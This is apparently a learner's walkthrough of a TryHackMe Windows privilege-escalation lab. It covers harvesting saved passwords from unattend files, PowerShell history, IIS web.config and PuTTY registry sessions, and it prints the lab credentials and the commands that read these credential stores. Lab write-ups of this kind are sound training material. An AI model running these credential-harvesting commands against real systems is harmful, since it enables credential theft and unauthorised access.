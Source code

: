 # Windows Privilege Escalation
###URL : https://tryhackme.com/room/windowsprivesc20

First we start the VM and connect to the Windows machine with :
`xfreerdp /u:thm-unpriv /p:Password321 /v:10.10.13.22`

(You can add /f to start in fullscreen mode. Why it uses slashes to annotate arguments, "OpenSource" i guess).

## Harvesting password from the Usual Spots

First we look for Unattended-Installation configurations on the "usual" places. 
We checkout this list of Usual suspects, but fail to find anything that is accessible:

```

    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml

```

Then we checkout the Powershell history and find a password hidden in plain sight.

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
C:\Windows\System32\Sysprep>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt                                                                                                                            ls                                                                                                                           whoami                                                                                                                       whoami /priv                                                                                                                 whoami /group                                                                                                                whoami /groups                                                                                                               cmdkey /?                                                                                                                    cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z                                                               cmdkey /list                                                                                                                 cmdkey /delete:thmdc.local                                                                                                   cmdkey /list                                                                                                                 runas /?                                                                     
```

So here we see some account creation commands beeing run, interesting.
`with "cmdkey /list"` we can see the currently saved credentials

Lets move on to the questions, see what they got:

### A password for the julia.jones user has been left on the Powershell history. What is the password?

We can find the answer to this in previously grabbed output from the history.

### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

Turns out i was following the instructions but was looking in the /Framework/ Folder, not in the /Framework64/ folder. Eventually i found the correct password by using Powershell:

`Get-Content .\web.config |Select-String -Pattern connectionString -Context 1,1`

### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s